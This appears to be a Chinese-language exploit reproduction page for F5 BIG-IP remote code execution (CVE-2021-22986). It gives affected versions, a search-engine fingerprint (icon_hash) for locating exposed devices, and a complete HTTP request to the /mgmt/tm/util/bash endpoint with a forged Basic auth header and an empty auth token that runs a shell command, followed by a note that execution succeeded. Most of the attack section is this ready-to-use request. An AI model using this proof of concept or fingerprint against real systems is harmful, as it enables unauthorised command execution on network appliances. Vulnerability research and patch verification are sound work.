

# F5 BIG-IP 远程代码执行漏洞 CVE-2021-22986

## 漏洞描述

F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。


近日，F5发布了F5 BIG-IQ/F5 BIG-IP 代码执行，代码执行的风险声明，F5安全公告更新了BIG-IP，BIG-IQ中的多个严重漏洞。建议广大用户及时将f5 big-iq,f5 big-ip升级到最新版本，避免遭到攻击。

## 漏洞影响

<a-checkbox checked>F5 BIG-IP 16.x: 16.1.0.3</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 15.x: 15.1.0.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 14.x: 14.1.2.6</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 13.x: 13.1.3.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 12.x: 12.1.5.2</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 11.x: 11.6.5.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

访问登录页面如下




发送请求包

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```


成功执行命令 id

